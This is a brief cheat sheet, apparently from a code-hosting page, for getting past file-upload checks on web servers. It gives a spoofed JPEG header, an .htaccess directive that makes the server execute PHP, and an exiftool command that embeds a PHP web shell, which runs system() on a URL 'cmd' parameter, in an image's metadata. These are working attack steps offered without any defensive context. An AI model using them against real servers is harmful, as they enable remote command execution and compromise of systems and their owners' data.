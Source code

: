 Jpg image header

```
FF D8 FF EE
```

.htaccess bypass:

```
AddType application/x-httpd-php .php
```

Manipulating image metadata:

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lol.jpeg
```
